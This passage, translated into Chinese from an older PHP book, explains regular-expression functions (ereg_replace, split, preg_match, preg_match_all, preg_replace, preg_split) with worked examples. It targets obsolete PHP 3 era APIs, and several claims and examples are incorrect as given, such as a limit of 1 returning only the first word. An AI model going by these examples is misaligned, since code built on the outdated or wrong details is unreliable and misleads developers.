返回更改后的字符串，或者如果没有进行更改，则返回原始字符串。

### 示例

以下示例代码将 201 区号替换为 973 区号。此外，它还将分隔符从破折号转换为句点。

```
$target = "David Medinets,201-927-7670";

$pat_area    = '([0-9][0-9][0-9])';
$pat_exchange = '([0-9]{3})';
$pat_number  = '([[:digit:]]{4})';

// 将三个模式组合成一个。
$pattern = "$pat_area-$pat_exchange-$pat_number";

$buffer = ereg_replace($pattern, "973.\\2.\\3", $target);

echo "Old: $target<br>";
echo "New: $buffer<br>";
```

此代码显示

```
Old: David Medinets,201-927-7670
New: David Medinets,973.927.7670
```

请注意，`$pat_number` 变量已更改；它现在使用括号，以便可以在替换参数中引用为 `\\3`。

## split

### 语法

```
array split(string DELIMITER, string TARGET, [int LIMIT]);
```

### 描述

`split` 根据 DELIMITER 拆分 TARGET。分隔符参数区分大小写。

### 返回值

返回一个数组，包含对 TARGET 应用 DELIMITER 后形成的子字符串。如果发生错误，函数返回 false。

### 示例

如果你的目标字符串仅包含电话号码，`split` 函数提供了一种解析电话号码的替代方法。要复制 `ereg` 函数中显示的示例，请使用以下代码：

```
$target = "973-927-7670";
$arr_phone = split("-", $target);

if (count($arr_phone) == 3) {
    echo "Number: $target<br>";
    echo "Area Code: $arr_phone[0]<br>";
    echo "Exchange: $arr_phone[1]<br>";
}
else {
    // 处理 'number not found' 错误。
}
```

你可以像这样使用 `split` 来解析点分十进制 IP 地址：

```
$target = "206.121.23.120";
$arr_ip = split("\\.", $target);
```

因为句点是一个元字符，所以它需要在模式参数内部使用 `\\` 字符进行转义。

**提示**

> 为了演示 `split` 函数的实际操作，使用了一个字面字符串作为模式。然而，这不是最佳的编码方法。如果你需要使用字面字符串作为分隔符，请在 PHP 文档中查找 `explode` 函数。

如果你需要从目标字符串中提取特定数量的项目，`limit` 参数很有用。以下代码展示了如何提取句子中的第一个单词：

```
$target = "Quickly, the lazy fox jumped.";
$arr_words = split("[[:space:],]", $target, 1);
echo "First Word: $arr_words[0]<br>";
```

此示例在括号表达式中使用字符类加上逗号字符，以便单词可以以空格或逗号结尾。

## Perl 风格函数

Perl 似乎拥有最灵活的模式匹配函数集。从 PHP v3.0.9 开始，Perl 的许多功能已被复制。

### 模式分隔符

Perl 风格的函数不是简单地将模式作为参数，而是要求参数被 *模式分隔符* 括起来。Perl 风格模式的标准分隔符是 `/` 字符。但是，你可以使用替代的模式分隔符。此功能在处理文件名时特别有用。分隔符标记给定模式的开始和结束。在以下模式中：

```
"//"
```

你看到了两个标准分隔符——斜杠（//）。但是，你可以使用任何字符作为分隔符。如果你想在模式中使用斜杠字符，此功能非常有用。例如，要匹配文件，通常使用：

```
"/\\/root\\/home\\/random.dat/"
```

这个匹配语句很难阅读，因为所有的斜杠似乎都连在一起（有些程序员说它们看起来像帐篷）。如果你使用替代分隔符，它可能看起来像这样：

```
"! /root/home/random.dat!"
```

在此示例中，`/` 字符不再像元字符那样起作用，因为分隔符已更改。因此，不再需要转义字符 `\`。


另一个使用替代分隔符的例子是

```
"{/root/home/random.dat{"
```

请注意，在这个例子中，*相同*的字符被用作结束分隔符。我强调这一点是因为Perl使用`}`字符来结束以`{`开头的模式。

使用替代分隔符的主要目的是避免在元字符用于其非元含义时，在其前面散布难看的转义字符。你可能认为将模式放入变量中，然后使用变量插值可以解决这个问题。不幸的是，至少在PHP v3.0.9版本中，情况并非如此。

```
$target = '/home/medined/readme.txt';
$pattern = '/medined';
if (preg_match("/$pattern/", $target)) {
    echo 'found<br>';
}
```

上述代码会导致以下错误：

```
Warning: Unknown option 'e' in {file} on line {number}
```

如果你将`$pattern`改为`'\/medined'`，错误就会消失，并且模式也会被找到。如果你选择单引号作为分隔符字符，那么模式上不会执行变量插值。然而，你仍然需要使用反斜杠字符来转义本章“如何创建模式”部分讨论的任何元字符。

### 提示

> 我倾向于避免使用可能与模式中的字符混淆的分隔符。例如，使用加号作为分隔符，`"+abc+"`对程序可读性没有帮助。随意的读者可能会认为你打算将两个表达式相加，而不是匹配它们。

### 模式选项

有了模式分隔符的支持，就有可能添加模式选项，这些选项放在结束分隔符之后。表9.3显示了可用的选项及其描述。

### 表9.3 Perl风格模式的选项

| 选项字符 | 描述 |
| --- | --- |
| A | 此选项强制模式仅在目标字符串的开头进行匹配。 |
| E | 此选项让`$`锚点元字符仅在目标字符串的末尾匹配。通常，如果最后一个字符是换行符，`$`字符也会在其紧前面匹配。如果使用了`m`选项，则此选项将被忽略。 |
| S | 此选项研究模式以尝试提高搜索速度。目前，研究模式仅对非锚定且没有单个固定起始字符的模式有用。 |
| U | 此选项强制进行非贪婪搜索。通常，搜索是贪婪的——它们寻找最长的可能匹配文本。例如，模式`/a+/`在字符串`"baaac"`中匹配`"aaa"`。非贪婪模式`/a+/U`匹配`"a"`。 |
| X | 此功能保留供将来使用。使用时，任何与非元字符一起使用的反斜杠都会导致错误。 |
| i | 此选项强制匹配不区分大小写。 |
| m | 此选项将字符串视为多行而不是单行。使用此选项时，`^`和`$`锚点元字符匹配目标字符串中的任何换行符，以及字符串的开头和结尾。 |
| s | 此选项强制句点元字符也匹配换行符。 |
| x | 此选项强制PHP忽略未用反斜杠转义或不在字符类中的空白。我强烈推荐此选项，以便你可以使用空格使你的正则表达式更具可读性。 |

### Perl风格元字符

除了前面定义的元字符外，Perl风格的函数还支持表9.4所示的元字符。

**表9.4** Perl风格模式的选项

| 选项字符 | 描述 |
|---|---|
| ? | 当此元字符跟在一个片段（例如，"b+"）之后时，它表示应执行非贪婪匹配。在字符串"abbbc"中，模式"/b+?/"的非贪婪匹配结果是找到文本"b"而不是"bbb"。 |
| \a | 此元序列匹配警报字符（ASCII值为7）。 |
| \A | 此元序列等同于插入符。它将模式锚定到目标字符串的开头。 |
| \b | 此元序列匹配单词边界。单词边界是单词字符（\w）和非单词字符（\W）之间的位置。Perl假设\W元序列匹配字符串两端的虚构字符。 |
| \B | 此元序列匹配非单词边界。 |
| \cn | 此元序列匹配任何控制字符。 |
| \d | 此元序列匹配单个数字字符。 |
| \D | 此元序列匹配单个非数字字符。 |
| \e | 此元序列匹配转义字符（ASCII值为27）。向打印机和终端发送命令时经常使用此字符。 |
| \f | 此元序列匹配换页符（ASCII值为12）。向打印机发送命令时经常使用此字符。 |
| \n | 此元序列匹配换行符（ASCII值为10）。 |
| \r | 此元序列匹配回车符（ASCII值为13）。 |
| \s | 此元序列匹配单个空白字符。 |
| \S | 此元序列匹配单个非空白字符。 |
| \t | 此元序列匹配制表符（ASCII值为9）。 |
| \w | 此元序列匹配单个单词字符。单词字符是字母数字和下划线字符。 |
| \W | 此元序列匹配单个非单词字符。 |
| \0nnn | 此元序列匹配ASCII值为八进制*nnn*的字符。例如，\020等同于十进制16，即Ctrl+P。 |
| \xnn | 此元序列匹配ASCII值为十六进制*nn*的字符。例如，\x10等同于十进制16，即Ctrl+P。 |
| \Z | 此元序列将模式锚定到目标字符串的末尾。 |

### 扩展模式表示法

当指定/x模式选项时，可以使用额外的表示法。通过使用(?*n*...)作为基本表示法，扩展表示法在没有添加大量现有元字符的情况下，显著增强了模式的功能。

目前，有五种扩展。它们在功能上差异很大——从添加注释到设置选项。表9.5列出了这些扩展，并对每种扩展进行了简短描述。

### 表9.5 使用/x选项可以实现扩展模式表示法

| 扩展 | 描述 |
| --- | --- |
| (?# 注释) | 此扩展允许你为正则表达式添加注释。注释会被忽略。 |
| (?: 模式) | 此扩展允许你为正则表达式添加括号，而不会占用模式内存位置。 |
| (?!模式) | 此扩展允许你指定不应跟在模式后面的内容。例如，`/blue(?!bird)/`表示"bluebox"和"bluesy"将被匹配，但"blue-bird"不会被匹配。请注意，匹配模式的文本不会存储在匹配文本的数组中。 |
| (?n) | 此扩展在模式内部指定模式选项，而不是在结束分隔符之后。如果你将模式存储在变量中并使用变量插值进行匹配，这很有用。例如，`"/b(?i)/"`执行不区分大小写的匹配。 |

在我看来，扩展模式目前最有用的功能是能够直接在模式中添加注释。例如，你更愿意看到像这样的模式：

```
# 匹配一个包含两个单词的字符串。$matches[1][0]
# 将是第一个单词。$matches[1][1] 将是
# 第二个单词。
$pattern = "/^\s*(\w+)\W+(\w+)\s*$/";
```

还是像这样的：

```
$pattern = "/
(?# 此模式匹配任何包含两个且仅有两个单词的字符串。)
(?# 匹配的单词将可用于 $matches[1][0] 和)
(?# $matches[1][1]（如果匹配成功）。)

^     (?# 将此匹配锚定到字符串的)
      (?# 开头)

\s*  (?# 跳过任何空白字符)
      (?# 使用 * 因为可能没有空白)
```

`(\w+)` （?# 匹配第一个单词，我们知道它是）
        （?# 第一个单词，因为上面的锚点）
        （?#。将匹配的单词放入模式内存中。）

`\W+`     （?# 匹配至少一个非单词）
        （?# 字符，可能不止一个）

`(\w+)`  （?# 匹配另一个单词，也放入模式内存。）

`\s*`     （?# 跳过任何空白字符）
        （?# 使用 `*` 是因为可能没有）

`$`       （?# 将此匹配锚定到字符串的末尾。）
        （?# 因为同时存在 `^` 和 `$` 锚点，所以整个字符串都需要匹配该模式。）
        （?# 一个符合模式的子字符串将不会匹配。）

/x";

当然，带注释的模式要长得多，但它们的执行时间相同。此外，维护带注释的模式要容易得多，因为每个组件都有解释。当你知道每个组件相对于模式其余部分的功能时，在需要时修改其行为就变得容易了。

扩展还可以让你在不影响模式内存的情况下改变求值顺序。例如：

```
$pattern = "/(?:a|b)+/";
```

匹配按任意顺序重复一次或多次的 a 或 b 字符。模式内存不会受到影响。

有时，你可能希望在模式中包含一个模式组件，而不将其包含在保存匹配字符串的数组中。这的专业术语是零宽正向先行断言。你可以使用它来确保匹配组件之后的字符串是正确的，而不影响匹配的值。例如，如果你有一些数据如下所示

```
$data[0] = 'David  Veterinarian 56';
$data[1] = 'Jackie Orthopedist  34';
$data[2] = 'Karen  Veterinarian 28';
```

并且你想找到所有兽医并存储第一列的值，你可以使用先行断言。例如：

```
$pattern = "/^\w+(?=\s+Vet)/";

while (list($key, $target) = each($data)) {
  preg_match_all($pattern, $target, $matches);
}
```

此代码显示

David Karen

### 提示

> 尽管 PHP 文档没有提到，但我相当肯定每个模式只能有一个先行断言，并且它必须是最后一个模式组件。

我们将讨论的最后一个扩展是零宽负向先行断言。这种类型的组件用于指定不应跟在匹配字符串之后的值。例如，使用与前面示例相同的数据，你可以查找所有不是兽医的人。你的第一反应可能是简单地将前面的示例中的 `(?=...)` 替换为 `(?!...)`。

```
$pattern = "/^\w+(?!\s+Vet)/";

while (list($key, $target) = each($data)) {
  preg_match_all($pattern, $target, $matches);
  echo $matches[0][0] . " ";
}
```

不幸的是，此代码显示

Davi Jackie Kare

这不是你想要的。问题在于 PHP 正在查看单词的最后一个字符，以检查它是否匹配 "Vet" 字符序列。为了正确匹配第一个单词，你需要明确告诉 PHP 第一个单词在单词边界处结束，如下所示：

```
$pattern = "/^\w+\b(?!\s+Vet)/";
```

使用此模式，代码显示

Jackie

这是正确的。

> 匹配任何值都有很多方法。如果你尝试的第一种方法不起作用，请尝试将值分解成更小的组件并匹配每个边界。如果其他所有方法都失败，你总可以在 PHP 邮件列表上寻求帮助（可在 http://php.net 找到）。

## preg_match

### 语法

```
int preg_match(string PATTERN, string TARGET, [array MATCHES]);
```

### 描述

preg_match 在 TARGET 中搜索 PATTERN。如果提供了第三个参数，匹配的文本将被放入其第一个元素，并使用 `$matches[0]` 访问。括号捕获的组的匹配项作为指定数组的元素存储。第一个捕获的子字符串放在 `$matches[1]` 中。第二个捕获的子字符串放在 `$matches[2]` 中。依此类推。当然，你可以使用任何数组名称作为第三个参数，`$matches` 只是我的偏好。

### 返回值

如果在目标字符串中找到模式，则返回 true，否则返回 false。如果发生错误（例如模式不正确），也返回 false。如果模式参数求值为空字符串 ('')，则返回值始终为 true。顺便说一句，这种行为与 Perl 不同。Perl 在遇到空模式时使用最后一个有效模式。

### 示例

以下示例代码将电话号码解析为其三个组成部分（区号、交换机和号码），并显示整个电话号码、区号和交换机。独立的变量保存识别这些组件的模式。这些变量用于使模式更易于理解。

```
$target = "David Medinets,973-927-7670";

// 将区号匹配为连续的三位数字。
$pat_area    = '(\d\d\d)';

// 使用边界匹配交换机和号码。
$pat_exchange = '(\d{3})';
$pat_number   = '\d{4}';

// 将这三个模式组合成一个。
// 注意使用了模式分隔符。
$pattern = "/$pat_area-$pat_exchange-$pat_number/";

if (preg_match($pattern, $target, $matches)) {
    echo "Number: $matches[0]<br>";
    echo "Area Code: $matches[1]<br>";
    echo "Exchange: $matches[2]<br>";
}
```

## preg_match_all

### 语法

```
int preg_match_all(
  string PATTERN,
  string TARGET,
  array MATCHES,
  [PREG_PATTERN_ORDER | PREG_SET_ORDER]
);
```

### 描述

preg_match 在 TARGET 中搜索所有不重叠的 PATTERN 实例。匹配的文本存储为 MATCHES 的元素。最后一个参数决定 MATCHES 元素的创建顺序。如果未指定最后一个参数，则默认为 `PREG_PATTERN_ORDER`。

如果指定了 `PREG_PATTERN_ORDER`，每次模式匹配时都会创建一个新的 MATCHES 元素。对于每个括号捕获的子匹配，都会创建一个子元素。别担心；以下示例应该可以阐明数组是如何组织的。

如果指定了 `PREG_SET_ORDER`，则 MATCHES 的第一个元素包含一个数组，该数组包含匹配整个模式的文本。MATCHES 的第二个元素包含一个数组，该数组包含匹配第一个括号捕获的子模式的文本。依此类推。

### 返回值

返回完整模式匹配的次数；否则返回 false。如果发生错误（例如模式不正确），也返回 false。

### 示例

以下示例证明了 PHP 在每段匹配文本结束后会继续搜索。例如，如果你在 "ABABAB" 中搜索 "ABA"，你可能倾向于找到两个匹配项。然而，因为这些匹配项重叠，所以 PHP 只找到一个匹配项：

```
$target = "ABABAB";
$pattern = "/aba/i";

preg_match_all($pattern, $target, $matches);

echo count($matches) . "<br>";
```

此代码显示

1

以下两个示例阐明了 `PREG_SET_ORDER` 和 `PREG_PATTERN_ORDER` 选项之间的区别。此示例使用 `PREG_SET_ORDER`：

```
$target = "12AB 13ABB 14ABBB";
$pattern = "/(\d+)ab+/i";
preg_match_all(
  $pattern,
  $target,
  $matches,
  PREG_SET_ORDER
);
```

执行后，`$matches` 数组的结构是三个顶级数组元素，每个元素都包含一个具有两个元素的子数组：

```
{
  "0" -> {       <- 第1个顶级元素
    "0" -> "12AB"
    "1" -> "12"
  }
  "1" -> {       <- 第2个顶级元素
    "0" -> "13ABB"
    "1" -> "13"
  }
  "2" -> {       <- 第3个顶级元素
    "0" -> "14ABBB"
    "1" -> "14"
  }
}
```

每个子数组中的第一个元素包含匹配整个模式的文本。每个子数组中的第二个元素包含匹配第一个括号捕获的子模式的文本。

此示例使用 `PREG_PATTERN_ORDER`：

```
$target = "12AB 13ABB 14ABBB";
$pattern = "/(\d+)ab+/i";
preg_match_all(
  $pattern,
  $target,
  $matches,
  PREG_PATTERN_ORDER
);
```

执行后，`$matches` 数组的结构是两个顶级数组元素，每个元素都包含一个具有三个元素的子数组：

```
{
  "0" -> {         <- 第1个顶级元素
    "0" -> "12AB"
    "1" -> "13ABB"
    "2" -> "14ABBB"
  }
  
  "1" -> {         <- 第2个顶级元素
    "0" -> "12"
    "1" -> "13"
    "2" -> "14"
  }
}
```

第一个顶级元素是一个数组，包含所有匹配整个模式的匹配项。第二个顶级元素是一个数组，包含所有匹配第一个括号捕获的子模式的匹配项。

## preg_replace

### 语法

```
mixed preg_replace(
  mixed PATTERN,
  mixed REPLACEMENT,
  mixed TARGET
);
```


### 描述

preg_replace 在 TARGET 参数中搜索与 PATTERN 匹配的内容，并将任何匹配的文本替换为 REPLACEMENT。

参数的数据类型是混合的，因为每个 preg_replace 参数都可以是标量或数组。其行为会根据参数的数据类型略有变化。使用标量 PATTERN 和数组 REPLACEMENT 参数是无效的。

如果 TARGET 是数组，则 preg_replace 会对数组的每个元素执行其操作。如果 PATTERN 是数组，则搜索和替换任务会对 PATTERN 数组中的每个元素执行一次。如果 PATTERN 和 REPLACEMENT 都是数组，则来自每个数组的元素会按顺序配对以执行搜索和替换任务。如果提供的替换条目不足，则使用空字符串。

模式可以包含带括号的子字符串，类似于 preg_match 函数。然而，其用法略有不同。你可以使用 \n 表示法引用每个匹配的子字符串，其中 n 指的是第 n 个带括号的子字符串。最多可以使用 99 个子字符串。特殊表示法 \0 指的是整个模式匹配的文本。

### 返回值

返回更改后的字符串或原始字符串（如果未进行任何更改）。返回值的数据类型与 TARGET 的数据类型相对应。

### 示例

以下示例展示了不同数据类型的组合。首先，将标量目标字符串中的所有数字替换为加号：

```
$target = "12AB 13ABB 14ABBB";
$pattern = "/\d+/";
$replacement = "+";
$result = preg_replace($pattern, $replacement, $target);
echo "$result<br>";
```

此代码显示

```
+AB +ABB +ABBB
```

接下来，为 pattern 参数指定一个数组。此示例将所有数字以及所有 B 或 b 字符序列更改为加号。

```
$target = "12AB 13ABB 14ABBB";
$pattern[0] = "/\d+/";
$pattern[1] = "/b+/i";
$replacement = "+";
$result = preg_replace($pattern, $replacement, $target);
echo "$result<br>";
```

此代码显示

```
+A+ +A+ +A+
```

现在，将 replacement 参数指定为数组。此示例将所有数字更改为加号，并将所有 B 或 b 字符序列更改为冒号。

```
$target = "12AB 13ABB 14ABBB";
$pattern[0] = "/\d+/i";
$pattern[1] = "/b+/i";
$replacement[0] = "+";
$replacement[1] = ":";
$result = preg_replace($pattern, $replacement, $target);
echo "$result<br>";
```

此代码显示

```
+A: +A: +A:
```

最后一个示例展示了当使用数组作为 target 参数时的结果。此示例将目标数组每个元素中的所有数字更改为加号，并将所有 B 或 b 字符序列更改为冒号：

```
$target[0] = "12AB 13ABB 14ABBB";
$target[1] = "05OB 06OBB 07OBBB";
$pattern[0] = "/\d+/i";
$pattern[1] = "/b+/i";
$replacement[0] = "+";
$replacement[1] = ":";
$result = preg_replace($pattern, $replacement, $target);
echo "$result[0]<br>";
echo "$result[1]<br>";
```

此代码显示

```
+A: +A: +A:
+0: +0: +0:
```

此示例中的 preg_replace 函数返回一个数组，因为 target 参数是数组。

## preg_split

### 语法

```
array preg_split(
  string DELIMITER,
  string TARGET,
  [int LIMIT]
);
```

### 描述

preg_split 根据 DELIMITER 拆分 TARGET。你可以使用任何 Perl 风格的正则表达式作为分隔参数。使用 limit 参数时，它会限制返回的子字符串数量。

### 返回值

返回一个数组，包含将 DELIMITER 应用于 TARGET 时形成的子字符串。如果发生错误，函数返回 false。

### 示例

preg_split 函数可以通过使用以下代码复制 preg_match 函数示例中展示的内容：

```
$target = "973-927-7670";
$arr_phone = preg_split("/-/", $target);

if (count($arr_phone) == 3) {
  echo "Number: $target<br>";
  echo "Area Code: $arr_phone[0]<br>";
  echo "Exchange: $arr_phone[1]<br>";
```

你可以像这样使用 preg_split 解析点分十进制 IP 地址：

```
$target = "206.121.23.120";
$arr_ip = preg_split("/\./", $target);
```

由于句点是元字符，因此需要在 pattern 参数中使用 \ 字符对其进行转义。另一种在模式中使用句点的技术是创建括号表达式：

```
$arr_ip = preg_split("/[.]/", $target);
```

如果你需要从目标字符串中提取特定数量的项目，limit 参数非常有用。以下代码展示了如何提取句子中的第一个单词：

```
$target = "Quickly, the lazy fox jumped.";
$arr_words = preg_split("/[\s,]/", $target, 1);
echo "First Word: $arr_words[0]<br>";
```

此示例在括号表达式中使用字符类加逗号字符，以便单词可以以空格或逗号结尾。

## 模式示例

本节是许多不同文本处理情况的参考。情况以*斜体*文本显示，可能的解决方案紧随其后。解决方案之后，一些注释解释了该解决方案。

本节中的所有示例都使用 Perl 风格的函数，因为它们比 POSIX 风格的函数具有更多功能。如果你使用的不是至少 PHP v3.0.9，你应该能够修改这些示例中的大部分以使用 POSIX 风格和元字符。不过，从长远来看，升级到较新版本的 PHP 是更好的选择。

## 匹配示例

要确定字符串是否有重复字符，例如 "ABC AA ABC" 中的 AA，请这样做：

```
$target = "ABC?AAAABC";
$pattern = "/(.)\\1/";
$bln_repeats = preg_match($pattern, $target, $matches);
```

此模式使用模式记忆（括号）来存储任何单个字符。然后使用反向引用（\1）来重复第一个字符。请注意，反向引用可以在仍在模式内部时使用。执行这些语句后，$matches[1] 保存重复的字符。此模式匹配任意两个非换行字符。

要查找字符串中的第一个单词，请这样做：

```
$target = "Mary had a little lamb.";
$pattern = "/^\\s*(\\w+)/";
preg_match($pattern, $target, $matches);
```

执行这些语句后，$matches[1] 保存目标字符串中的第一个单词。字符串开头的任何空白都会被 \\s* 部分跳过。然后 \\w+ 部分匹配下一个单词。请注意，匹配零个或多个的星号字符用于匹配空白，因为可能没有任何空白。匹配一个或多个的加号用于单词字符。

要查找字符串中的最后一个单词，请这样做：

```
$target = "Mary had a little lamb.";
$pattern = "/
    (\\w+)           (?# 匹配一个单词，将其值)
                    (?# 存储到模式记忆中)

    [.!?]?          (?# 某些字符串可能包含)
                    (?# 句子。如果是这样，此组件)
                    (?# 匹配零个或一个标点)
                    (?# 字符)

    \\s*             (?# 使用 * 匹配尾部空白，)
                    (?# 因为可能没有任何)
                    (?# 空白)

    $               (?# 将匹配锚定到字符串末尾)
/x";
```

执行这些语句后，$matches[1] 保存字符串中的最后一个单词，lamb。通过扩展括号表达式 [.!?] 以包含更多标点，可以使此示例更加健壮。

x 模式选项允许在模式内部使用空白和注释。

要确定字符串中是否只有两个单词，请这样做：

```
$target = "Speed Racer";
$pattern = "/^(\\w+)\\W+(\\w+)$/";
preg_match($pattern, $target, $matches);
```

执行这些语句后，假设模式匹配，$matches[1] 保存第一个单词，$matches[2] 保存第二个单词。模式以插入符号开头，以美元符号结尾，这意味着整个字符串必须匹配该模式。`\w+` 部分匹配一个单词。`\W+` 部分匹配单词之间的空白。你可以通过为每个要匹配的额外单词添加一个 `\w+(\w+)` 部分来测试更多单词。

要在忽略前导或尾部空格的情况下确定字符串中是否只有两个单词，请这样做：

```
$target = "Speed Racer";
$pattern = "/^\s*(\w+)\W+(\w+)\s*$/";
preg_match($pattern, $target, $matches);
```

执行这些语句后，假设模式匹配，`$matches[1]` 保存第一个单词，`$matches[2]` 保存第二个单词。`\s*` 部分匹配任何前导或尾部空白。

要将字符串中的前两个单词分配给 `$one` 和 `$two`，并将字符串的其余部分分配给 `$rest`，请这样做：

```
$target = "This is the way to San Jose.";

// 匹配整个单词。
$word  = '\w+';

// 匹配至少一个非单词字符。
$space = '\W+';

// 匹配除换行符之外的任意数量的任何字符。
$string = '.*';

$pattern = "/^($word) $space ($word) $space ($string)/x";
preg_match($pattern, $target, $matches);
$one  = $matches[1];
$two  = $matches[2];
$rest = $matches[3];
```

执行这些语句后，`$one` 保存第一个单词，`$two` 保存第二个单词，`$rest` 保存目标字符串中的所有其他内容。此示例使用变量插值，希望使匹配模式更易于阅读。此技术还强调了模式的哪个部分用于匹配单词和空白。它通过增加一层抽象，让读者关注模式的整体而非单个模式组件。


要查看目标字符串是否包含合法的 PHP 变量名，请执行以下操作：

```
$target = 'Dear $honorific $last_name.';

$pattern = "/
    [\$]   (?# Use a bracket expression to match the)
           (?# first character of a variable name)

    [a-z]  (?# Use a bracket expression to ensure the)
           (?# first character of the name is a letter)

    \w*    (?# Use a bracket expression to ensure the)
           (?# rest of the variable name is either an)
           (?# alphanumeric or an underscore character)

/ix";  // Use the /i option so that the search is
        // case-insensitive and use the /x option to
        // allow comments in the pattern.

$result = preg_match($pattern, $target);
```

执行这些语句后，如果目标字符串包含变量名，则 `$result` 为 true；否则为 false。

要查看目标字符串是否包含合法的整数字面量，请执行以下操作：

```
$target = 'There were 29 books.';

$pattern = "/
  (?# First check for just numbers)

  \d+      (?# Match one or more digits)

  |        (?# or)

  (?# Now check for hexadecimal numbers)

  0x       (?# The '0x' sequence starts)
           (?# a hexadecimal number)
  [\da-f]+ (?# Match one or more hexadecimal)
           (?# characters)
/ix";

$result = preg_match($pattern, $target);
```

执行这些语句后，如果目标字符串包含整数字面量，则 `$result` 为 true；否则为 false。

要匹配字符串中第一个单词的最后一个字符，请执行以下操作：

```
$target = 'There were 29 books.';
$pattern = "/(\w)\W/";
preg_match_all($pattern, $target, $matches);
```

执行这些语句后，`$matches[1][0]` 保存第一个单词的最后一个字符。通过检查 `$matches[1]` 数组中的其他元素，可以确定目标字符串中其他单词的最后一个字符。如果你想让最后一个字符和后面的单词之间有一个分隔字符，请不要使用括号。在这种情况下，`$matches[0][0]` 将包含第一个单词的最后一个字符和后面的空格。

要匹配字符串中第二个单词的开头，请执行以下操作：

```
$target = 'There were 29 books.';
$pattern = "/\W(\w)/";
preg_match_all($pattern, $target, $matches);
```

执行这些语句后，`$matches[1][0]` 保存第二个单词的第一个字符。虽然这个模式与匹配单词末尾的模式相反，但它不会匹配第一个单词的开头！这是因为 `\W` 元字符。仅仅在 `\W` 之后向模式添加 `*` 元字符也没有帮助，因为它会匹配零个非单词字符，从而匹配字符串中的每个单词字符。

你可以添加另一个带有交替操作的模式，以便也能找到第一个单词的第一个字符。例如：

```
$target = 'There were 29 books.';
$pattern = "/^(\w)|\W(\w)/";
preg_match_all($pattern, $target, $matches);
```

虽然这个模式有效，但 `$matches` 数组的结构可能并不直观：

```
$matches[0][0] ==> 'T '
$matches[0][1] ==> 'w '
$matches[0][2] ==> '2 '
$matches[0][3] ==> 'b '
```

```
$matches[1][0] ==> 'T'

$matches[2][0] ==> 'w'
$matches[2][1] ==> '2'
$matches[2][2] ==> 'b'
```

PHP 为每个带括号的子字符串在 `$matches` 中创建一个新条目。在处理 `$matches` 数组时，你需要记住这一点。另外请注意，`$matches[0]` 中的所有条目都包含完整的匹配文本，因此每个条目末尾都有一个空格字符。

添加第三个带括号的子字符串来匹配目标字符串中的数字可能会很有趣。如果在模式中添加 `(\d+)` 会发生什么？你能猜到吗？

```
$target = 'There were 29 books.';
$pattern = "/^(\w)|\W(\w)|(\d+)/";
preg_match_all($pattern, $target, $matches);
```

这些语句会生成一个结构如下的 `$matches` 数组：

```
$matches[0][0] ==> 'T '
$matches[0][1] ==> 'w '
$matches[0][2] ==> '2 '
$matches[0][3] ==> '9'
$matches[0][4] ==> 'b ' <-- the 'b' was found.

$matches[1][0] ==> 'T'

$matches[2][0] ==> 'w'
$matches[2][1] ==> '2'
          <-- no 'b' entry!

$matches[3][2] ==> '9'
```

注意，`(\d+)` 只匹配 `29` 中的 `9`。产生这个结果是因为 `\W(\w)` 模式部分在 `(\d+)` 部分看到之前就已经捕获了 `2`。另外请注意，以 `books` 开头的 `b` 字符并没有进入 `$matches[2]` 数组。这似乎是一个 bug。

要匹配文件规范中的文件名，请执行以下操作：

```
$target = '/user/Jackie/temp/names.dat';
$pattern = "!^.*/(.*)!";
preg_match_all($pattern, $target, $matches);
```

执行这些语句后，`$matches[1][0]` 等于 `names.dat`。匹配锚定在字符串的开头，`.*` 部分匹配到最后一个斜杠之前的所有内容，因为正则表达式是贪婪的。然后下一个 `(.*)` 部分匹配文件名并将其存入模式内存。你可以将第一个 `.*` 部分用括号括起来，从而将文件路径存入模式内存。

要匹配两个前缀和一个词根，例如 `rockfish` 和 `monkfish`，请执行以下操作：

```
$target = 'monkfish';
$pattern = "/(?:rock|monk)fish/x";
preg_match_all($pattern, $target, $matches);
```

交替字符表示需要找到 `rock` 或 `monk` 后跟 `fish` 的匹配。如果你需要知道找到的是哪个替代项，则在模式中使用普通括号（而不是 `(?:...)`）。使用普通括号匹配后，`$matches[1][0]` 将等于 `rock` 或 `monk`。

## 替换示例

要删除字符串开头的空白字符，请执行以下操作：

```
$target  = '    Happy Times';
$pattern = '/^\s+/';
$replacement = '';

$result = preg_replace(
  $pattern,
  $replacement,
  $target
);
```

这个模式使用 `\s` 元序列来匹配任何空白字符。加号表示匹配一个或多个空白字符，插入符号表示仅在字符串开头匹配。

### 提示

> 这个示例遵循“拿着锤子的人看什么都像钉子”的哲学。换句话说，因为本章讲的是模式和正则表达式，所以就用模式来删除空格。使用 PHP 的 `trim` 函数来删除空格更高效。

要删除字符串末尾的空白字符，请执行以下操作：

```
$target = 'Happy Times   ';
$pattern = '/\s+$/';
$replacement = '';

$result = preg_replace(
    $pattern,
    $replacement,
    $target
);
```

这个模式使用 `\s` 预定义字符类来匹配任何空白字符。加号表示匹配一个或多个空白字符，美元符号表示仅在字符串末尾匹配。

要为字符串添加前缀，请执行以下操作：

```
$target = 'Happy Times';
$prefix = 'The';

$pattern = '/^(.*)/';
$replacement = "$prefix \\1";
$result = preg_replace(
    $pattern,
    $replacement,
    $target
);
```

替换完成后，`$prefix` 变量中的值会被添加到带括号子模式所匹配文本的开头。这是通过变量插值和模式内存实现的。当然，你也可以考虑使用字符串连接运算符；例如，`$result = "A" . $target;`，这可能快得多。

要为字符串添加后缀，请执行以下操作：

```
$target = 'Happy Times';
$suffix = 'Again';

$pattern = '/^(.*)/';
$replacement = "\\1 $suffix";
$result = preg_replace(
    $pattern,
    $replacement,
    $target
);
```

替换完成后，`$suffix` 变量中的值会被添加到带括号子模式所匹配文本的末尾。这是通过变量插值和模式内存实现的。当然，你也可以考虑使用字符串连接运算符；例如，`$result = $target . $suffix;`，这可能快得多。

要反转字符串中的前两个单词，请执行以下操作：

```
$target  = 'Happy Times';

$pattern = '/^\s*(\w+)\W+(\w+)/';
$replacement = "\2 \1";

$result = preg_replace(
    $pattern,
    $replacement,
    $target
);
```

这个替换语句使用模式内存变量 `\1` 和 `\2` 来反转字符串中的前两个单词。你可以使用类似的技术来操作信息列、最后两个单词，甚至改变两个以上匹配项的顺序。

要执行“自定义”变量插值，请执行以下操作：

变量插值允许你向文本字符串添加参数。例如，`Month: {month}` 在某个时候可能值为 `Month: January`，而在另一个时候可能值为 `Month: March`。很难预测何时需要这种能力。我有时使用这种技术将文本字符串存储在数据库中。当需要显示这些字符串时，我根据需要替换参数并显示结果。

```
$target = 'Dear {honorific} {last_name}.';

// The parentheses are used to store the
// parameter names into the $matches[1]
// array. In this case, the array will
// have 'honorific' and 'last_name' entries.
$pattern = '/{(\w+?)}/';

